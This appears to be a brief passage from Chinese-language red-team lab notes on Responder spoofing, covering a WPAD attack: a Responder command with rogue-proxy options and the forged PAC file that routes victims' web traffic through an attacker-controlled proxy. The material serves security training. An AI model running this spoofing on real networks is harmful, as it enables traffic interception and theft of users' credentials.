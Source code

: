   ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/20.png)

---

# WPAD

```
responder -I eth0 -r on -v -F on -w on
```

Responder 通过伪造如下 pac 文件将代理指向 ISAProxySrv:3141
```
function FindProxyForURL(url, host){
  if ((host == "localhost")
      || shExpMatch(host, "localhost.*")
      ||(host == "127.0.0.1")
      || isPlainHostName(host)) return "DIRECT";
  if (dnsDomainIs(host, "RespProxySrv")
      ||shExpMatch(host, "(*.RespProxySrv|RespProxySrv)"))
    			return "DIRECT";
  return 'PROXY ISAProxySrv:3141; DIRECT';}
```
